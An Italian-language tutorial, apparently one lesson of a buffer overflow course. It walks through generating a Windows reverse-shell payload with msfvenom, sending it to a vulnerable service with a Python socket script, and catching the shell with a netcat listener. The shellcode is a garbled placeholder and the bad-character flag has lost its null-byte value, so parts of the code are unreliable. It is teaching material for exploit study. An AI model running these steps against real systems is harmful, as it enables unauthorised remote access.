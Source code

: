```yaml
---
layout: post
title:  "Corso Buffer Overflow: Creazione del Payload"
date:   2024-09-08 14:00:00 +0200
categories: buffer-overflow
tags: [buffer-overflow, payload, exploit]
---
```


# Corso Buffer Overflow: Creazione del Payload

Nella fase precedente, abbiamo determinato l'**offset** corretto per sovrascrivere l'EIP. Ora siamo pronti a creare un **payload** che ci consenta di sfruttare il buffer overflow e ottenere l'esecuzione del nostro codice arbitrario.

In questa fase, utilizzeremo **msfvenom** per creare il nostro payload e lo invieremo al programma vulnerabile.

## Strumenti richiesti

- **msfvenom**: Strumento di Metasploit per generare shellcode.
- **Netcat**: Per ascoltare la connessione di ritorno.

## 1. Generazione del Payload con msfvenom

Utilizzeremo **msfvenom** per generare uno **shellcode** che ci fornisca una **reverse shell**. Ecco il comando per generare il payload:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<TUO_IP> LPORT=<TUO_PORT> -b " " -f c
```

- **`-p windows/shell_reverse_tcp`**: Specifichiamo il tipo di payload, in questo caso una reverse shell per Windows.
- **`LHOST=<TUO_IP>`**: Sostituisci `<TUO_IP>` con il tuo indirizzo IP locale.
- **`LPORT=<TUO_PORT>`**: Sostituisci `<TUO_PORT>` con una porta aperta sul tuo sistema.
- **`-b " "`**: Questo elimina i caratteri nulli (` `) che potrebbero interrompere il payload.
- **`-f c`**: Formato del payload in linguaggio C.

### Output del comando:

Dopo aver eseguito il comando, riceverai uno shellcode simile a questo:

```c
"ÚÄÙt$ôº$-F..."
```

Copia lo shellcode generato e preparati ad aggiungerlo al tuo exploit.

## 2. Modifica dello script di exploit

Ora che abbiamo il nostro shellcode, modifichiamo lo script Python per includere l'offset che abbiamo trovato e il nostro payload:

```python
import socket

ip = "192.168.1.100"
port = 9999

# Offset trovato dall'analisi precedente
offset = 524

# Shellcode generato con msfvenom
shellcode = (
    "ÚÄÙt$ôº$-F..."
)

# Creazione del payload
payload = "A" * offset
payload += "B" * 4  # Questo sarà l'indirizzo di ritorno (EIP) che sostituiremo in seguito
payload += shellcode

# Invio del payload al programma vulnerabile
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(bytes(payload, 'latin-1'))
s.close()
```

### 3. Esecuzione del payload

Dopo aver creato lo script, esegui il codice per inviare il payload al programma vulnerabile.

```bash
python3 exploit.py
```

## 4. Attendere la connessione

Prima di eseguire lo script, assicurati di essere in ascolto sulla porta specificata. Puoi farlo usando **Netcat**:

```bash
nc -lvnp <TUO_PORT>
```

Se tutto va a buon fine, otterrai una **reverse shell** e potrai eseguire comandi sulla macchina compromessa.

## Prossimi Passi

Nella prossima parte parleremo di come gestire e bypassare protezioni come DEP e ASLR per eseguire il nostro shellcode in sistemi protetti.

